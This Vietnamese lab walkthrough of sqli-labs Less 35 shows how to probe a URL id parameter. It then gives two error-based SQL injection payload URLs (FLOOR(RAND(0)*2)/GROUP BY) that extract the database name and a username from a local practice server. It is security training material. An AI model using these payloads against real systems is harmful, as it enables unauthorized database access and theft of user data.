





# Less 35

Đề bài cho phép truyền vào ID từ URL



Thử truyền vào giá trị



Thử truyền tiếp vào các giá trị có thể dẫn đến lỗi


Ta thấy ở đây đã được thêm ký tự `\` vào các ký tự đặc biệt. Tôi tiếp tục thử để tìm cách injection thì khi tôi nhập vào thì tôi thấy



Như vậy dựa vào đây ta có thể khai thác DB

```
http://192.168.84.233/sqli-labs/Less-35/?id=1 and (SELECT 0 FROM (SELECT count(*), CONCAT((select database()), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```



Tương tự vậy khai thác các thông tin khác

```
http://192.168.84.233/sqli-labs/Less-35/?id=1 and (SELECT 0 FROM (SELECT count(*), CONCAT((select username from users limit 0,1), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```

